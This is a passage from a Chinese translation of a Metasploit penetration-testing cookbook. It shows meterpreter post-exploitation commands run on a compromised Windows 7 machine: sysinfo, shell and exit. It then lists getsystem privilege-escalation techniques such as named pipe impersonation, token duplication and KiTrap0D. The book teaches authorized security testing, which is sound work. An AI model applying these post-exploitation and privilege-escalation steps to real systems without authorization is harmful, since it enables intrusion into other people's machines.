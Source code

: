 +   sysinfo：这是一个方便的命令，可以快速验证系统信息，如操作系统和架构。

```
meterpreter > sysinfo
Computer : DARKLORD-PC
OS : Windows 7 (Build 7264).
Architecture : x86
System Language : en_US
Meterpreter : x86/win32 
```

+   shell：此命令将我们带入一个 shell 提示符。我们已经在一些先前的配方中看到了这个 meterpreter 命令的用法。

```
meterpreter > shell
Process 4208 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved. 
```

+   退出：此命令用于终止 meterpreter 会话。此命令也可用于终止 shell 会话并返回到 meterpreter。

这些是一些有用的系统命令，可用于探索受损目标以获取更多信息。还有许多其他命令，我留给您去尝试和探索。您可能已经注意到，使用 meterpreter 命令并探索目标是多么容易，而如果没有它，这将是一项困难的任务。在我们的下一个配方中，我们将专注于一些高级的 meterpreter 命令。

## 工作原理...

Meterpreter 的工作方式类似于任何命令解释器。它旨在通过命令理解和响应各种参数调用。它驻留在被利用/受损的进程的上下文中，并与渗透测试人员的机器创建客户端/服务器通信系统。

![工作原理...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_05_02.jpg)

前面的图表简要展示了 meterpreter 的功能。一旦建立通信通道，我们就可以向 meterpreter 服务器发送命令调用，以便将其响应发送回我们的机器。随着本章的深入，我们将更详细地了解渗透测试机器与受损目标之间的通信。

# 特权升级和进程迁移

在这个配方中，我们将专注于 meterpreter 的两个非常有用的命令。第一个是**特权升级**。此命令用于提升目标系统上的权限/权限。我们可能以较低权限的用户身份进入系统。因此，我们可以提升我们的特权以成为系统管理员，以便在执行任务时不受干扰。第二个命令是**进程迁移**。此命令用于在不在磁盘上写入任何内容的情况下从一个进程迁移到另一个进程。

## 如何做...

为了提升我们的特权，meterpreter 为我们提供了`getsystem`命令。此命令会自动开始寻找各种可能的技术，通过这些技术，用户的权限可以提升到更高级别。让我们分析`getsystem`命令使用的不同技术：

```
meterpreter > getsystem -h
Usage: getsystem [options]
Attempt to elevate your privilege to that of local system.
OPTIONS:
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
4 : Exploit - KiTrap0D (In Memory/User) 
```
